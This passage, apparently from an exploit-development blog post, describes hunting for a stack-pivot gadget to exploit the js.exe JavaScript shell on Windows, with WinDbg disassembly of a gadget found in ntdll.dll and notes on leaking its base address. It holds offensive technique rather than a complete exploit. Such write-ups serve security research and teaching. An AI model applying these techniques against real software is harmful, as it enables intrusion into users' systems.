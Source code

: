 The stack-pivot gadget we are looking for looks like the following - pivoting in the inline buffer:

```text
rsp <- [rdx] + X with 0x40 <= X < 0x40 + 90
```

Or - pivoting in the buffer:

```text
rsp <- [[rdx] + 0x38]
```

Finding this pivot actually took me way more time than I expected. I spent a bunch of time trying to find it manually and trying various combinations (JOP, etc.). This didn't really work at which point I decided to code-up a tool that would try to pivot to every executable bytes available in the address-space and emulate forward until seeing a crash with `rsp` containing marker bytes.

After banging my head around and failing for a while, this solution eventually worked. It was not perfect as I wanted to only look for gadgets inside the `js.exe` module at first. It turns out the one pivot the tool found is in `ntdll.dll`. What is annoying about this is basically two things:

1. It means that we also need to leak the base address of the ntdll module. Fine, this should not be hard to pull off, but just more code to write.

2. It also means that now the exploit relies on a system module that changes over time: different version of Windows, security updates in ntdll, etc. making the exploit even less reliable.

Oh well, I figured that I would first focus on making the exploit work as opposed to feeling bad about the reliability part. Those would be problems for another day (and this is what `kaizen.js` tries to fix).

Here is the gadget that my tool ended up finding:

```text
0:000> u ntdll+000bfda2 l10
ntdll!TpSimpleTryPost+0x5aeb2:
00007fff`b8c4fda2 f5              cmc
00007fff`b8c4fda3 ff33            push    qword ptr [rbx]
00007fff`b8c4fda5 db4889          fisttp  dword ptr [rax-77h]
00007fff`b8c4fda8 5c              pop     rsp
00007fff`b8c4fda9 2470            and     al,70h
00007fff`b8c4fdab 8b7c2434        mov     edi,dword ptr [rsp+34h]
00007fff`b8c4fdaf 85ff            test    edi,edi
00007fff`b8c4fdb1 0f884a52faff    js      ntdll!TpSimpleTryPost+0x111 (00007fff`b8bf5001)

0:000> u 00007fff`b8bf5001
ntdll!TpSimpleTryPost+0x111:
00007fff`b8bf5001 8bc7            mov     eax,edi
00007fff`b8bf5003 488b5c2468      mov     rbx,qword ptr [rsp+68h]
00007fff`b8bf5008 488b742478      mov     rsi,qword ptr [rsp+78h]
00007fff`b8bf500d 4883c440        add     rsp,40h
00007fff`b8bf5011 415f            pop     r15
00007fff`b8bf5013 415e            pop     r14
00007fff`b8bf5015 5f              pop     rdi
00007fff`b8bf5016 c3              ret
```
